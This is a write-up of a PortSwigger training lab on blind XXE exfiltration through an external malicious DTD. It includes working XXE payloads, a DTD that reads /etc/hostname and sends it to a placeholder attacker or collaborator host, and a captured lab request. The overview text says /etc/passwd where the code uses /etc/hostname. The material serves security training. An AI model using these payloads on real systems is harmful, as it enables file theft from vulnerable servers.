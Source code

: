 # Lab-05 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7ac3d0f2-66e3-4016-b19b-ed3298d5a8ae)

## Overview :

It involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request
to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```xml
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

> In some cases, when performing a blind XXE (XML External Entity) attack to retrieve data from the /etc/passwd file, **only a single line of the file may be 
  obtained in the response**. 
>
> The limited response that you observe could occur due to the way the application processes the XML and constructs the response. It might be **designed to 
  include only a single line of the file**, truncating the content to prevent the disclosure of sensitive information.

For this we can use an FTP server to get all the contents of the file .
> **FTP sever tool - https://github.com/lc/230-OOB**

## Solution :

Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/2
Host: 0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Cookie: session=2K3jJ6C0GNurtpvuyrqmYZYeIU1ITlX1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to solve the lab, we need to make the application to fetch our malicious DTD file with the payload to  retreive `/etc/hostname` & then send the exfiltrated data back to our server.

#### Steps -

1. The application parses the XML entitiy & tries to fetch the malicious DTD hosted at exploit server
2. Payload of exploit server gets executed. Means the application retreives the `/etc/hostname` of the vulnerable server.
3. THe vulnerable server now sends the exfiltrated data back to our collaborator server.

#### Craft the payload

In the request to check the stock, we can  insert the following external entity definition in between the XML declaration and the stockCheck element: 

```xml

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0a1800a6032c20998658e88b0120001e.exploit-server.net/exploit"> %xxe;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Host this `malicious.dtd` file in our exploit server.

> NOTE- We need to send the exfiltrated data (**/etc/hostname**) back to our collaborator server. So provide colab server's address.

When we send the request, we get a response stating that - `XML parsing error`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/598b1687-ab63-4964-a5b3-2c4edee76c3e)

But if we check our collaborator server, we can see that few HTTP & DNS requests were made. The HTTP request made to our server contains the output of our payload in the GET request header .

`/etc/hostname` - `6837f702d700`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/19dc61a2-651c-4030-a810-80b0b608af0b)

Submit the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4f4f951-6cf9-445c-8ea3-772ac924e75b)

